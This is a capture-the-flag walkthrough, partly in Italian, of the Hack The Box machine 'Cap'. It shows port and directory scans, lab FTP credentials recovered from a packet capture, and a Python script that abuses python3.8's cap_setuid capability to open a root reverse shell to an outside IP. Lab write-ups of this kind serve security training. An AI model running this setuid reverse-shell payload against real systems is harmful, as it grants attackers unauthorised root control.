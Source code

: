 #+TITLE: HTB - Cap
#+AUTHOR: Leonardo Tamiano
#+EMAIL: leonardotamiano95@gmail.com

* Basic Info
  :PROPERTIES:
  :UNNUMBERED: t
  :END:  
  - *Table of contents*:
    #+TOC: headlines 2

  ------------------------
  
  A seguire è riportato un breve walkthrough della macchina *Cap*
  offerta dalla piattaforma Hack the Box.

* Enumeration
** nmap
*** leo@kali:~/repos/cap$ nmap -p- cap
    #+begin_example
Starting Nmap 7.91 ( https://nmap.org ) at 2021-10-20 19:08 CEST
Nmap scan report for cap (10.129.242.67)
Host is up (0.052s latency).
Not shown: 65532 closed ports
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 18.15 seconds
    #+end_example

*** leo@kali:~/repos/cap$ nmap -sC -sV cap
    #+begin_example
Starting Nmap 7.91 ( https://nmap.org ) at 2021-10-20 19:08 CEST
Stats: 0:01:19 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 66.67% done; ETC: 19:10 (0:00:39 remaining)
Nmap scan report for cap (10.129.242.67)
Host is up (0.052s latency).
Not shown: 997 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 fa:80:a9:b2:ca:3b:88:69:a4:28:9e:39:0d:27:d5:75 (RSA)
|   256 96:d8:f8:e3:e8:f7:71:36:c5:49:d5:9d:b6:a4:c9:0c (ECDSA)
|_  256 3f:d0:ff:91:eb:3b:f6:e1:9f:2e:8d:de:b3:de:b2:18 (ED25519)
80/tcp open  http    gunicorn
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 404 NOT FOUND
|     Server: gunicorn
|     Date: Wed, 20 Oct 2021 17:08:26 GMT
|     Connection: close
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 232
|     <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
|     <title>404 Not Found</title>
|     <h1>Not Found</h1>
|     <p>The requested URL was not found on the server. If you entered the URL manu
ally please check your spelling and try again.</p>
|   GetRequest: 
|     HTTP/1.0 200 OK
|     Server: gunicorn
|     Date: Wed, 20 Oct 2021 17:08:21 GMT
|     Connection: close
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 19386
|     <!DOCTYPE html>
|     <html class="no-js" lang="en">
|     <head>
|     <meta charset="utf-8">
|     <meta http-equiv="x-ua-compatible" content="ie=edge">
|     <title>Security Dashboard</title>
|     <meta name="viewport" content="width=device-width, initial-scale=1">
|     <link rel="shortcut icon" type="image/png" href="/static/images/icon/favicon.
ico">
|     <link rel="stylesheet" href="/static/css/bootstrap.min.css">
|     <link rel="stylesheet" href="/static/css/font-awesome.min.css">
|     <link rel="stylesheet" href="/static/css/themify-icons.css">
|     <link rel="stylesheet" href="/static/css/metisMenu.css">
|     <link rel="stylesheet" href="/static/css/owl.carousel.min.css">
|     <link rel="stylesheet" href="/static/css/slicknav.min.css">
|     <!-- amchar
|   HTTPOptions: 
|     HTTP/1.0 200 OK
|     Server: gunicorn
|     Date: Wed, 20 Oct 2021 17:08:21 GMT
|     Connection: close
|     Content-Type: text/html; charset=utf-8
|     Allow: OPTIONS, HEAD, GET
|     Content-Length: 0
|   RTSPRequest: 
|     HTTP/1.1 400 Bad Request
|     Connection: close
|     Content-Type: text/html
|     Content-Length: 196
|     <html>
|     <head>
|     <title>Bad Request</title>
|     </head>
|     <body>
|     <h1><p>Bad Request</p></h1>
|     Invalid HTTP Version &#x27;Invalid HTTP Version: &#x27;RTSP/1.0&#x27;&#x27;
|     </body>
|_    </html>
|_http-server-header: gunicorn
|_http-title: Security Dashboard
1 service unrecognized despite returning data. If you know the service/version, ple
ase submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-ser
vice :
SF-Port80-TCP:V=7.91%I=7%D=10/20%Time=61704D04%P=x86_64-pc-linux-gnu%r(Get
SF:Request,2FE5,"HTTP/1\.0\x20200\x20OK\r\nServer:\x20gunicorn\r\nDate:\x2
SF:0Wed,\x2020\x20Oct\x202021\x2017:08:21\x20GMT\r\nConnection:\x20close\r
SF:\nContent-Type:\x20text/html;\x20charset=utf-8\r\nContent-Length:\x2019
SF:386\r\n\r\n<!DOCTYPE\x20html>\n<html\x20class=\"no-js\"\x20lang=\"en\">
SF:\n\n<head>\n\x20\x20\x20\x20<meta\x20charset=\"utf-8\">\n\x20\x20\x20\x
SF:20<meta\x20http-equiv=\"x-ua-compatible\"\x20content=\"ie=edge\">\n\x20
SF:\x20\x20\x20<title>Security\x20Dashboard</title>\n\x20\x20\x20\x20<meta
SF:\x20name=\"viewport\"\x20content=\"width=device-width,\x20initial-scale
SF:=1\">\n\x20\x20\x20\x20<link\x20rel=\"shortcut\x20icon\"\x20type=\"imag
SF:e/png\"\x20href=\"/static/images/icon/favicon\.ico\">\n\x20\x20\x20\x20
SF:<link\x20rel=\"stylesheet\"\x20href=\"/static/css/bootstrap\.min\.css\"
SF:>\n\x20\x20\x20\x20<link\x20rel=\"stylesheet\"\x20href=\"/static/css/fo
SF:nt-awesome\.min\.css\">\n\x20\x20\x20\x20<link\x20rel=\"stylesheet\"\x2
SF:0href=\"/static/css/themify-icons\.css\">\n\x20\x20\x20\x20<link\x20rel
SF:=\"stylesheet\"\x20href=\"/static/css/metisMenu\.css\">\n\x20\x20\x20\x
SF:20<link\x20rel=\"stylesheet\"\x20href=\"/static/css/owl\.carousel\.min\
SF:.css\">\n\x20\x20\x20\x20<link\x20rel=\"stylesheet\"\x20href=\"/static/
SF:css/slicknav\.min\.css\">\n\x20\x20\x20\x20<!--\x20amchar")%r(HTTPOptio
SF:ns,B3,"HTTP/1\.0\x20200\x20OK\r\nServer:\x20gunicorn\r\nDate:\x20Wed,\x
SF:2020\x20Oct\x202021\x2017:08:21\x20GMT\r\nConnection:\x20close\r\nConte
SF:nt-Type:\x20text/html;\x20charset=utf-8\r\nAllow:\x20OPTIONS,\x20HEAD,\
SF:x20GET\r\nContent-Length:\x200\r\n\r\n")%r(RTSPRequest,121,"HTTP/1\.1\x
SF:20400\x20Bad\x20Request\r\nConnection:\x20close\r\nContent-Type:\x20tex
SF:t/html\r\nContent-Length:\x20196\r\n\r\n<html>\n\x20\x20<head>\n\x20\x2
SF:0\x20\x20<title>Bad\x20Request</title>\n\x20\x20</head>\n\x20\x20<body>
SF:\n\x20\x20\x20\x20<h1><p>Bad\x20Request</p></h1>\n\x20\x20\x20\x20Inval
SF:id\x20HTTP\x20Version\x20&#x27;Invalid\x20HTTP\x20Version:\x20&#x27;RTS
SF:P/1\.0&#x27;&#x27;\n\x20\x20</body>\n</html>\n")%r(FourOhFourRequest,18
SF:9,"HTTP/1\.0\x20404\x20NOT\x20FOUND\r\nServer:\x20gunicorn\r\nDate:\x20
SF:Wed,\x2020\x20Oct\x202021\x2017:08:26\x20GMT\r\nConnection:\x20close\r\
SF:nContent-Type:\x20text/html;\x20charset=utf-8\r\nContent-Length:\x20232
SF:\r\n\r\n<!DOCTYPE\x20HTML\x20PUBLIC\x20\"-//W3C//DTD\x20HTML\x203\.2\x2
SF:0Final//EN\">\n<title>404\x20Not\x20Found</title>\n<h1>Not\x20Found</h1
SF:>\n<p>The\x20requested\x20URL\x20was\x20not\x20found\x20on\x20the\x20se
SF:rver\.\x20If\x20you\x20entered\x20the\x20URL\x20manually\x20please\x20c
SF:heck\x20your\x20spelling\x20and\x20try\x20again\.</p>\n");
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.or
g/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 132.46 seconds    
    #+end_example
** gobuster
*** leo@kali:~/repos/cap$ gobuster dir -u cap -w ~/repos/wordlists/dirbuster/directory-list-2.3-medium.txt 
    #+begin_example
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://cap
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /home/leo/repos/wordlists/dirbuster/directory-list-2.3
-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/10/20 19:21:51 Starting gobuster in directory enumeration mode
===============================================================
/data                 (Status: 302) [Size: 208] [--> http://cap/]
/ip                   (Status: 200) [Size: 17368]                
/netstat              (Status: 200) [Size: 32198]                
/capture              (Status: 302) [Size: 220] [--> http://cap/data/3]
Progress: 16858 / 220561 (7.64%)
[!] Keyboard interrupt detected, terminating.
                                                                       
===============================================================
2021/10/20 19:23:25 Finished
===============================================================    
    #+end_example

** pcap file
   Tramite ~wireshark~ abbiamo analizato il file presente nell'url
   ~http://cap/data/0~ e abbiamo trovato le seguenti credenziali per
   accedere al server ftp.

   nathan:Buck3tH4TF0RM3!
   
* Priv Esc
** nathan
   nathan:Buck3tH4TF0RM3!

*** sudo -l
    #+begin_example
Sorry, user nathan may not run sudo on cap.    
    #+end_example
*** getcap -r / 2>/dev/null
    #+begin_example
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
/usr/bin/ping = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep    
    #+end_example
*** to get root
    #+begin_src python
#!/usr/bin/python3.8

import os, socket, subprocess

os.setuid(0)

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("10.10.14.83", 4321))
os.dup2(s.fileno(), 0)
os.dup2(s.fileno(), 1)
os.dup2(s.fileno(), 2)

p = subprocess.call(["/bin/sh", "-i"])    
    #+end_src
